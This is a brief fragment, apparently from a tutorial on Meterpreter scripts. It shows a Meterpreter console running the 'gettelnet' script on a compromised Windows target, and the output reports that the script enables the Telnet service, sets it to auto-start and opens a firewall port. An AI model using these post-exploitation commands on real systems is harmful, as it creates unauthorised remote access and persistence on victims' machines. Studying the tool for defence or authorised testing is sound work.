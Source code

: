 ```

meterpreter > run gettelnet -e
[*] Windows Telnet Server Enabler Meterpreter Script
[*] Checking if Telnet Service is Installed
[*] Checking if Telnet is installed...
[*] Telnet Service Installed on Target
[*] Setting Telnet Server Services service startup mode
[*]     The Telnet Server Services service is not set to auto, changing it to auto ...
[*]     Opening port in local firewall if necessary
[*] For cleanup use command: run multi_console_command -r /home/omer/.msf4/logs/scripts/gettelnet/clean_up__20201015.0421.rc
meterpreter >
```

https://www.hackers-arise.com/ultimate-list-of-meterpreter-scripts